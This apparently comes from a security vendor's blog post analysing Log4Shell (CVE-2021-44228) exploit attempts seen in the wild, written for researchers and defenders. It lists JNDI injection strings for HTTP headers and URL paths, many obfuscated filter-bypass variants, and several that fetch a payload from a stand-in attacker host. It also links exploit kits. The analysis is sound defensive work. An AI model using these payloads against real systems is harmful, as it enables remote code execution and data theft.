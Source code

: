 The evolving Log4Shell story: analysis of ongoing and future exploits
=====================================================================

On 12 Dec 2021, we published a [blog post](https://www.forescout.com/blog/forescout%e2%80%99s-response-to-cve-2021-44228-apache-log4j-2/) on Forescout's website regarding CVE-2021-44228 on Log4j (a.k.a Log4Shell) and how we are helping customers to detect vulnerable devices and detect exploitation.

Today, we are publishing this note directed towards security researchers and technical analysts. We would like to add some new details to this evolving story, including an assessment of real exploit samples seen in the wild, a new obfuscation technique that we have developed and tested in our lab, and pointers to other useful resources, such as lists of affected vendors and ongoing attack campaigns. 

This is a live document and it will be updated to reflect new developments and findings as soon as we have them.
 
Real samples of exploit attempts
================================

We will skip a description of the vulnerability and basic exploits here, since those were described in our previous [blog post](https://www.forescout.com/blog/forescout%e2%80%99s-response-to-cve-2021-44228-apache-log4j-2/). In a very brief summary, attackers can inject remote JNDI lookups into Log4j instances via Internet-accessible services, such as webservers. These remote lookups can then execute malicious code or exfiltrate data. 

Since last week, attackers have been constantly scanning the web testing new ways to inject JNDI lookup payloads (e.g., in different parts of HTTP requests) and new ways to bypass security mechanisms (e.g., by obfuscating parts of the request). 

There are currently [proofs-of-concept](https://github.com/tangxiaofeng7/apache-log4j-poc) and lists of exploits and bypasses on GitHub (e.g., https://github.com/cyberstruggle/L4sh and https://github.com/pimps/JNDI-Exploit-Kit) as well as open honeypots with real-time data, such as SANS ISCs for [User Agents](https://isc.sans.edu/api/webhoneypotreportsbyua/jndi:/?json) and for [URLs](https://isc.sans.edu/api/webhoneypotreportsbyurl/jndi:/?json). 

A (non-exhaustive) list of exploit examples coming from the sources above and some company publications (such as [JFrog](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/) and [Talos](https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html)) includes the following:
*	HTTP headers
	*	`User-Agent: ${jndi:ldap://<payload_path>}`
	*	`Authorization: Bearer ${jndi:ldap://<payload_path>}`
	*	`Authorization: Token ${jndi:ldap://<payload_path>}`
	*	`Authorization: Oauth ${jndi:ldap://<payload_path>}`
	*	`Authorization: Basic ${jndi:ldap://<payload_path>}`
	*	`Referer: ${jndi:ldap://<payload_path>}`
*	URL path
	*	`/${jndi:ldap://<payload_path>}`
	*	`/?x=${jndi:ldap://<payload_path>}`
*	Obfuscated requests
	*	`${jndi:${lower:l}${lower:d}${lower:a}${lower:p}}://<payload_path>}`
	*	`${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://<payload_path>}`
	*	`$%7Bjndi:ldap://<payload_path>%7D`
	*	`j${k8s:k5:-ND}i${sd:k5:-:}`
	*	`j${main:\k5:-Nd}i${spring:k5:-:}`
	*	`j${sys:k5:-nD}${lower:i${web:k5:-:}}`
	*	`j${::-nD}i${::-:}`
	*	`j${EnV:K5:-nD}i:`
	*	`${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}attacker_controled_website/payload_to_be_executed}`
	*	`j${loWer:Nd}i${uPper::}`
	*	`${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://attacker_controled_website/payload_to_be_executed}`
	*	`${jndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}`
	*	`${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}`